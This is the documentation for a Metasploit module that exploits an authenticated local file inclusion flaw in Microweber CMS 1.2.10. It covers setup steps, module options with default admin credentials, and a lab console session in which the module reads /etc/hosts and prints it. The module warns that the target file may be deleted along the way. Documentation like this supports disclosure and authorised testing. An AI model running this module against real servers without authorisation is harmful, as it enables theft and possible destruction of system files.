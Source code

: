 ## Vulnerable Applications
Microweber CMS v1.2.10 LFI (Authenticated) has been verified and fixed according to the maintainer of the project. You check out the vulnerability report:
https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/

**The older versions of Microweber CMS might be vulnerable too. I've not tested the module against the other versions.**
If you want, you can follow the steps in the official vulnerability report to reproduce the vulnerability against the older versions. (not guaranteed)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] Run `use auxiliary/gather/microweber_lfi`
- [ ] Set `RHOSTS`
- [ ] Set `ADMIN_USER`
- [ ] Set `ADMIN_PASS`
- [ ] Set `LOCAL_FILE_PATH`
- [ ] Run `exploit`
- [ ] Verify that you see `Checking Microweber's version.`
- [ ] Verify that you see `Microweber Version: 1.2.10`
- [ ] Verify that you see `You are logged in`
- [ ] Verify that you see `Uploading LOCAL_FILE_PATH to the backup folder.`
- [ ] Verify that you see `FILE was moved!`
- [ ] Verify that you see `Downloading FILE from the backup folder.`

## Options
```
msf6 auxiliary(gather/microweber_lfi) > options

Module options (auxiliary/gather/microweber_lfi):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   ADMIN_PASS       admin            yes       The admin's password for Microweber
   ADMIN_USER       admin            yes       The admin's username for Microweber
   LOCAL_FILE_PATH  /etc/hosts       yes       The path of the local file.
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           192.168.188.132  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /                yes       The base path for Microweber
   VHOST                             no        HTTP server virtual host
```

## Scenerios
This module has been tested against Microweber CMS v1.2.10 installed on Ubuntu.

```
msf6 auxiliary(gather/microweber_lfi) > use auxiliary/gather/microweber_lfi
msf6 auxiliary(gather/microweber_lfi) > set admin_user admin
admin_user => admin
msf6 auxiliary(gather/microweber_lfi) > set admin_pass
admin_pass => admin
msf6 auxiliary(gather/microweber_lfi) > set local_file_path /etc/hosts
local_file_path => /etc/hosts

msf6 auxiliary(gather/microweber_lfi) > check

[!] Triggering this vulnerability may delete the local file that is wanted to be read.
[*] Checking Microweber's version.
[+] Microweber Version: 1.2.10
[+] 192.168.188.132:80 - The target is vulnerable.
msf6 auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[!] Triggering this vulnerability may delete the local file that is wanted to be read.
[*] Checking Microweber's version.
[+] Microweber Version: 1.2.10
[+] You are logged in
[*] Uploading /etc/hosts to the backup folder.
[+] hosts was moved!
[*] Downloading hosts from the backup folder.
127.0.0.1 localhost
127.0.1.1 ubuntu-srv-tk

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
[*] Auxiliary module execution completed
```
